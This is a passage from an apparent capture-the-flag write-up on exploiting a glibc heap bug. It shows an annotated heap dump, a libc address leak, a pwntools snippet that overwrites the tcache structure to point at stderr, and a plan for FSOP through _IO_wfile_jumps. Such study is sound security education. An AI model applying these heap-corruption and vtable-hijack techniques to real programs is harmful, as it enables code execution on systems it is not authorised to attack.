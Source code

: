 ```txt
0x55942f65c0e0: 0x0000000000000000      0x0000000000000000
# Chunk A2B(==B) (alloced AND fastbin)
0x55942f65c0f0: 0x00000000000000d0      0x0000000000000021
0x55942f65c100: 0x00007f5eb0e19ce0      0x00007f5eb0e19ce0
# Chunk C (fastbin)
0x55942f65c110: 0x0000000000000020      0x0000000000000040
0x55942f65c120: 0x000000055942f65c      0x0000000000000000
0x55942f65c130: 0x0000000000000000      0x0000000000000000
0x55942f65c140: 0x0000000000000000      0x0000000000000000
# [!] tcache
0x55942f65c150: 0x0000000000000000      0x0000000000000291
0x55942f65c160: 0x0000000000000000      0x0000000000000000
```

Chunk is allocated from unsorted bins and it mistakenly assumes that the size is `0xF0`, which We overwrote with. Therefore, Chunk B is freed and connected to fastbin, though it is still in use for notes. We can leak the addr of unsortedbin via `fd` by reading the note[0]. We got a libcbase.

## Overwriting tcache directly for AAW

You may notice that I wrote `[!] tcache` in the heap layout. tcache is allocated in the middle of chunks in the above layout. This is because **`tcache` is initialized when `__libc_malloc` is called first time**. Remember that we first call `aligned_alloc` with `align = 0xF0` and then with `align = 0x0`. When we call `aligned_alloc` with enough `align` value, it directly calls `_int_malloc`, which does NOT initialize tcache. This is a good news, because we can easily overwrite tcache in the middle of heap by the overflow.

```py
  #   counts
  tcache = p16(1) # count of size=0x20 to 1
  tcache = tcache.ljust(0x80, b"\x00") # set other counts to 0
  #   entries
  tcache += p64(io_stderr)
  create(3, 0, 0, b"D"*0x58 + p64(0x291) + tcache)
```

We set `counts` of `size = 0x20` to 1, and `entries` of the size to `_IO_2_1_stderr_`. Yes we have to do FSOP.

![](https://hackmd.io/_uploads/S159JBG7n.png)

# FSOP: abusing wfile vtable

TBH, i'm totally stranger around FSOP of latest glibc. So I searched for some writeups and found good articles:
- https://blog.kylebot.net/2022/10/22/angry-FSROP/
- https://ctftime.org/writeup/34812
- https://nasm.re/posts/onceforall/
- https://github.com/nobodyisnobody/write-ups/tree/main/Hack.lu.CTF.2022/pwn/byor

Plainly speaking, calls to funcs in vtable `_IO_wfile_jumps` are not supervised. So my approach is:
- Target is `__IO_2_1_stderr_` (hereinafter called `stderr`).
- Overwrite `stderr._wide_data._wide_vtable` to point to somewhere we can write to.
- Overwrite `stderr._vtable` from `_IO_file_jumps` to `_IO_wfile_jumps`.
- Call `stderr._vtable.__overflow == _IO_wfile_overflow` to invoke call to `stderr._wide_data._wide_vtable.__doallocate`.
